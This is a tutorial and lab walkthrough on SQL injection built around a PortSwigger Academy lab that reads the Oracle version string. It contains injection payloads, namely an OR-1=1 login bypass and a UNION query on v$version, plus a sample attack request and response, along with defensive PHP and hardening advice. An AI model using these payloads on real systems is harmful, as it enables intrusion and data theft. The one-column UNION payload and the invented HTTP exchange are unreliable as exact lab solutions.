

## Introduction to SQL Injection

SQL Injection is a common web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. The attacker can inject malicious SQL statements into input fields, which can then be executed by the database. This can lead to unauthorized data retrieval, manipulation, or even complete compromise of the database.

### What is SQL Injection?

SQL Injection occurs when an attacker manipulates the input parameters to a web application in such a way that the application constructs and executes a SQL query that was not intended by the developer. This can happen because the application does not properly validate or sanitize user input before including it in a SQL query.

#### Why Does SQL Injection Matter?

SQL Injection is a critical vulnerability because it can allow attackers to bypass authentication mechanisms, read sensitive data, modify or delete data, and even execute administrative operations on the database. This can result in significant financial loss, reputational damage, and legal consequences for the organization.

#### How Does SQL Injection Work?

To understand how SQL Injection works, consider a simple login form where a user enters their username and password. The application might construct a SQL query like this:

```sql
SELECT * FROM users WHERE username = 'username' AND password = 'password';
```

If the application does not properly validate the input, an attacker could enter something like `username' OR '1'='1` as the username. This would change the query to:

```sql
SELECT * FROM users WHERE username = 'username' OR '1'='1' AND password = 'password';
```

Since `'1'='1'` is always true, the query will return all rows from the `users` table, effectively bypassing the authentication mechanism.

### Real-World Examples of SQL Injection

SQL Injection attacks have been responsible for numerous high-profile breaches. One notable example is the breach of the Heartland Payment Systems in 2008, where an attacker used SQL Injection to steal over 130 million credit card numbers. Another example is the breach of the T-Mobile USA in 2015, where an attacker used SQL Injection to gain access to customer data.

### Background Theory

To fully understand SQL Injection, it is important to know the basics of SQL and how databases work. SQL (Structured Query Language) is a standard language for managing relational databases. It allows users to create, read, update, and delete data from a database.

Databases store data in tables, which consist of rows and columns. Each row represents a record, and each column represents a field in that record. SQL queries are used to interact with these tables and perform various operations on the data.

### Variants of SQL Injection

There are several types of SQL Injection attacks, including:

1. **Classic SQL Injection**: This is the most common type of SQL Injection, where the attacker injects SQL code into input fields to manipulate the query.
2. **Blind SQL Injection**: In this type of attack, the attacker does not receive direct feedback from the database but can infer information based on the application's behavior.
3. **Union-Based SQL Injection**: This type of attack uses the UNION operator to combine the results of two or more SELECT statements.

### Lab Setup

For this lab, we will be using the PortSwigger Web Security Academy, which provides a controlled environment to practice and learn about web security vulnerabilities. The lab we will be working on is titled "SQL Injection Attack querying the database type and version on Oracle."

### Accessing the Lab

To access the lab, follow these steps:

1. Visit the URL `https://portswigger.net/web-security`.
2. Click on the "Sign up" button to create an account if you don't already have one.
3. Log in to your account.
4. Navigate to the "Academy" section.
5. Select "Learning Path".
6. Choose "SQL Injection".
7. Select "Examining the database in SQL Injection Attacks".
8. Click on the lab titled "SQL Injection Attack querying the database type and version on Oracle".

### Understanding the Vulnerability

In this lab, we will be exploiting a SQL Injection vulnerability in the product category filter. The vulnerability allows us to inject SQL code into the input field to retrieve the database version string.

### Exploiting the Vulnerability

To exploit the vulnerability, we will use a Union-based SQL Injection attack. This involves injecting SQL code into the input field to retrieve the results from an injected query.

#### Step-by-Step Exploitation

1. **Identify the Vulnerable Input Field**:
   - Open the lab and identify the input field where the SQL Injection vulnerability exists. In this case, it is the product category filter.

2. **Inject SQL Code**:
   - Enter the following SQL code into the input field:
     ```
     ' UNION SELECT banner FROM v$version --
     ```
   - This code will inject a UNION query that selects the `banner` column from the `v$version` table, which contains the database version information.

3. **Submit the Request**:
   - Submit the request and observe the response. The response should contain the database version string.

### Full HTTP Request and Response

Here is the full HTTP request and response for the exploitation:

```http
GET /filter?category=' UNION SELECT banner FROM v$version -- HTTP/1.1
Host: vulnerable-app.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Cookie: session=abc123

HTTP/1.1 200 OK
Date: Mon, 01 Aug 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Product Categories</title>
</head>
<body>
    <h1>Product Categories</h1>
    <ul>
        <li>Oracle Database 12c Enterprise Edition Release 12.1.0.2.0 - 64bit Production</li>
    </ul>
</body>
</html>
```

### Explanation of the HTTP Headers

- **User-Agent**: Identifies the client browser.
- **Accept**: Specifies the types of content the client can accept.
- **Accept-Language**: Specifies the preferred language for the response.
- **Cookie**: Contains session information.
- **Content-Type**: Specifies the media type of the resource.
- **Content-Length**: Specifies the size of the response body.

### Mermaid Diagram of the Attack Chain



### Common Pitfalls

When performing SQL Injection attacks, there are several common pitfalls to avoid:

1. **Incorrect Syntax**: Ensure that the injected SQL code is syntactically correct.
2. **Timing Issues**: Some attacks may require precise timing to succeed.
3. **Error Handling**: Applications may have error handling mechanisms that can prevent successful exploitation.

### How to Prevent / Defend Against SQL Injection

#### Detection

To detect SQL Injection vulnerabilities, use automated tools such as static and dynamic analysis tools. These tools can scan the application code and network traffic to identify potential vulnerabilities.

#### Prevention

To prevent SQL Injection attacks, follow these best practices:

1. **Use Prepared Statements**: Prepared statements ensure that user input is treated as data rather than executable code.
2. **Input Validation**: Validate all user input to ensure it meets expected criteria.
3. **Least Privilege Principle**: Run the database with the least privileges necessary to perform its tasks.
4. **Web Application Firewalls (WAF)**: Use WAFs to filter out malicious input.

#### Secure Coding Fixes

Here is an example of a vulnerable code snippet and its secure counterpart:

**Vulnerable Code**:
```php
$category = $_GET['category'];
$query = "SELECT * FROM products WHERE category = '$category'";
$result = mysqli_query($conn, $query);
```

**Secure Code**:
```php
$category = $_GET['category'];
$stmt = $conn->prepare("SELECT * FROM products WHERE category = ?");
$stmt->bind_param("s", $category);
$stmt->execute();
$result = $stmt->get_result();
```

### Configuration Hardening

To harden the database configuration, follow these steps:

1. **Disable Unnecessary Features**: Disable features that are not required for the application.
2. **Limit User Privileges**: Limit the privileges of database users to the minimum necessary.
3. **Enable Auditing**: Enable auditing to track database activity and detect suspicious behavior.

### Conclusion

SQL Injection is a serious vulnerability that can have severe consequences if not properly addressed. By understanding the mechanics of SQL Injection and implementing proper defenses, organizations can protect their databases from these types of attacks.

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Provides a variety of labs to practice SQL Injection and other web security vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that demonstrates insecure coding practices.

By completing these labs, you can gain practical experience in identifying and exploiting SQL Injection vulnerabilities, as well as learning how to defend against them.

---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/08-Lab 7 SQL injection attack querying the database type and version on Oracle/00-Overview|Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/08-Lab 7 SQL injection attack querying the database type and version on Oracle/02-SQL Injection Overview|SQL Injection Overview]]
